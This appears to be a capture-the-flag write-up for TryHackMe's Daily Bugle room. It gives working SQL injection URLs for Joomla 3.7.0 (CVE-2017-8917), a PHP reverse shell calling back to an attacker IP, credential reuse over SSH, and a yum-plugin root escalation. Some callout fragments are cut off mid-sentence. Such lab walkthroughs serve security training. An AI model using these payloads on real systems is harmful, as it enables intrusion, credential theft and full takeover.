

Daily Bugle
// Overview
Daily Bugle is a TryHackMe room based on the famous Spider-Man newspaper. The machine runs an old version of Joomla that is open to SQL injection. This leads to discovering credential and escalating privileges using yum.
The room is rated Hard and includes:
- Enumerating a Joomla CMS
- Exploiting CVE-2017-8917 (SQL injection)
- Extracting admin credentials
- Gaining a reverse shell by editing a Joomla template
- Moving laterally to SSH with found credentials
- Escalating privileges using GTFOBins and
yum
// Phase 1: Reconnaissance
We begin with a standard Nmap scan. The -sC flag runs default scripts, -sV detects versions, and -p- scans all 65,535 ports.
nmap -sC -sV -p- <target_ip>
The results show three open ports:
PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 7.4 (protocol 2.0) 80/tcp open http Apache httpd 2.4.6 ((CentOS) PHP/5.6.40) 3306/tcp open mysql MariaDB (unauthorized) | http-generator: Joomla! - Open Source Content Management | http-robots.txt: 15 disallowed entries | /joomla/administrator/ /administrator/ /bin/ /cache/ ...
When we visit the site on port 80, we see a Joomla-powered homepage for The Daily Bugle with a headline about Spider-Man robs bank. The robots.txt file confirms the Joomla installation and shows the /administrator path.

"Spider-Man robs bank!" is our first clue.// Phase 2: Joomla Enumeration
To confirm the exact version, we perform directory enumeration for common Joomla files. Many CMS installations leave README.txt, LICENSE.txt, or CHANGELOG.txt accessible. We run:
gobuster dir -u http://<target_ip>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt
Gobuster finds /README.txt. We fetch it:
curl http://<target_ip>/README.txt
The file shows Joomla! 3.7.0:
This is a Joomla! installation/upgrade package to version 3.x Joomla! 3.7 version history - https://docs.joomla.org/Joomla_3.7_version_history
This version is known to have a vulnerability: CVE-2017-8917, an SQL injection vulnerability in the com_fields component.
README.txt, CHANGELOG.txt, and LICENSE.txt during enumeration. They are often left exposed and reveal exact versions.
// Phase 3: SQL Injection & Credential Extraction
We use the exploit from searchsploit:
searchsploit joomla 3.7.0
The relevant exploit is 42033.txt, which details an XPATH-based error injection in the com_fields component.
Finding the Table Prefix
Joomla uses a random table prefix, like fb9j5_ or jos_, but also supports the placeholder #__. The CMS replaces with the actual prefix at runtime. We can use %23__users (URL-encoded #__users) directly in our payloads without needing to find the real prefix.
%23? The # character is used for URL fragments, so it must be URL-encoded as %23 to be read correctly in the SQL query.
Extracting the Admin Hash
The vulnerable parameter is list[fullordering]. We use an XPATH-based payload to extract the admin's username and password hash:
http://<target_ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(0x3a,(SELECT concat(username,0x3a,password) FROM %23__users LIMIT 0,1),0x3a),1)
The error response shows the admin's username and a bcrypt hash:
admin_username:[HASH]
The XPATH error has a character limit, so long hashes get cut off. We use SUBSTRING to get the hash in parts:
http://<target_ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(0x3a,(SELECT SUBSTRING(password,1,30) FROM %23__users WHERE username=0x[HEX_USERNAME]),0x3a),1)
0x[HEX_USERNAME] avoids problems with quote escaping in the SQL query. For example, jonah becomes 0x6a6f6e6168.
We repeat this for characters 31-60 to obtain the complete hash.
john or hashcat, bcrypt is designed to be slow. Instead, we try contextually relevant passwords. In this situation, the room's theme gives us a strong clue.

jonah.// Phase 4: Reverse Shell
In the Joomla admin panel, we go to Extensions, then Templates, and select the Protostar template. We open index.php and add a reverse shell:
<?php
$ip = "<attacker_ip>";
$port = 4444;
$sock = fsockopen($ip, $port);
$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
Next, we set up a listener on our machine:
nc -lvnp 4444
After that, we visit the site's homepage to trigger the shell. We establish a connection as the apache user.

index.php template file.// Phase 5: Lateral Movement
Our reverse shell places us in /var/www/html as the apache user. We list the directory contents:
ls -la
Among the files, we see configuration.php, which is the Joomla configuration file. We read it:
cat configuration.php
The file contains database credentials:
root / [PASSWORD]
Next, we check for other users on the system:
ls /home
This reveals a user named jjameson, who is J. Jonah Jameson, the editor-in-chief of the Daily Bugle.
We try the database password for the jjameson account via SSH:
ssh jjameson@<target_ip> Password: [PASSWORD] [jjameson@dailybugle ~]$ ls user.txt [jjameson@dailybugle ~]$ cat user.txt
// Phase 6: Privilege Escalation
As jjameson, we check sudo permissions:
sudo -l
We find that jjameson can run /usr/bin/yum as root without a password:
User jjameson may run the following commands on dailybugle:
(ALL) NOPASSWD: /usr/bin/yum
Looking at GTFOBins, we find a way to escalate via yum. We create a temporary directory and a plugin that runs a shell:
TF=$(mktemp -d)
cat >$TF/x <<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF
cat >$TF/y.conf <<EOF
[main]
enabled=1
EOF
cat >$TF/y.py <<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
os.execl('/bin/sh','/bin/sh')
EOF
sudo yum -c $TF/x --enableplugin=y
init_hook that replaces the process with /bin/sh, effectively spawning a root shell.
This drops us into a root shell:
sh-4.2# whoami root sh-4.2# cat /root/root.txt
yum is a common way to escalate when you have sudo rights. The plugin method works on most systems.
// Key Takeaways
com_fields is well-known and easy to exploit. Always check for CVEs during enumeration.
yum, apt, or other common programs, there is usually a way to escalate privileges.